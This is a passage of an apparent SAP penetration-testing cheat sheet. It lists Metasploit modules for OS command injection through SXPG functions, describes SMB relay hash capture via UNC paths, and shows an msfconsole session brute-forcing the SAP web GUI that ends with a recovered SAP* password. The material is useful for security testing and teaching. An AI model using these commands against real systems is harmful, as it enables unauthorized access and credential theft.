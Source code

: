 ```
> Attempts to use the SXPG_COMMAND_EXECUTE function to execute valid SM69 transaction commands in the remote system.
  Valid SAP credentials are required. 

auxiliary/scanner/sap/sap_soap_ rfc_dbmcli_sxpg_call_system_ command_exec.rb 
> Attempts to attack the SXPG_CALL_SYSTEM function to inject and execute arbitrary OS commands through the SM69 DBMCLI command.
  Valid SAP credentials are required. For more information about the DBMCLI injection, see this blog from @ nmonkee. 

auxiliary/scanner/sap/sap_soap_ rfc_dbmcli_sxpg_command_exec.rb
 > Attempts to attack the SXPG_COMMAND_EXECUTE function to inject and execute arbitrary OS commands through the SM69 DBMCLI command.
   Valid SAP credentials are required. For more information about the DBMCLI injection, see this blog from @ nmonkee.  

exploits/multi/sap/sap_soap_rfc_ sxpg_call_system_exec.rb 
> Attempts to attack command injection issues on SXPG_CALL_ SYSTEM to externally execute a Metasploit payload on the remote system.
  Valid SAP credentials are required. 

exploits/multi/sap/sap_soap_rfc_ sxpg_command_exec.rb 
> Attempts to attack command injection issues on SXPG_ COMMAND_EXECUTE to externally execute a Metasploit payload on the remote system.
  Valid SAP credentials are required. 
```

<i/> 4.6 - SMB Relay attacks using Metasploit </i>
```
There is also an interesting attack that can target different SAP functions and is reachable via the SOAP RFC or other components
such as those in the J2EE engine—more about that later. 
While handling names, a lot of functions are vulnerable to SMB Relay Attacks. 
These attacks send an UNC path pointing to a server capturing SMB hashes, which can be disclosed when the vulnerable component
tries to access it. 

> Some SMB Relay Attack attacks, both unauthenticated and authenticated, have been collected by @nmonkee in an auxiliary module located
  at /auxiliary/scanner/sap/sap_smb_relay.rb. 
> Module to run to capture the SMB Hashs (LMhash and NTHash): auxiliary/server/capture/smb module capturing SMB hashes 
```

<i/> 4.7 - SAP Web interface password brute-force using Metasploit </i>
```
Launch password brute-force attacks against the Web GUI with the Metasploit module "auxiliary/scanner/sap/sap_web_gui_brute_login.rb"

msf > use auxiliary/scanner/sap/sap_web_gui_brute_login
msf auxiliary(sap_web_gui_brute_login) > show options
<SNIP>
msf auxiliary(sap_web_gui_brute_login) > set RHOSTS 192.168.172.179
msf auxiliary(sap_web_gui_brute_login) > set RPORT 8042
msf auxiliary(sap_web_gui_brute_login) > run
<SNIP>
[SAP] Credentials
=================
   host             port  client  user  pass
   ----             ----  ------  ----  ----
   192.168.172.179  8042  001     SAP*  06071992
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(sap_web_gui_brute_login)
```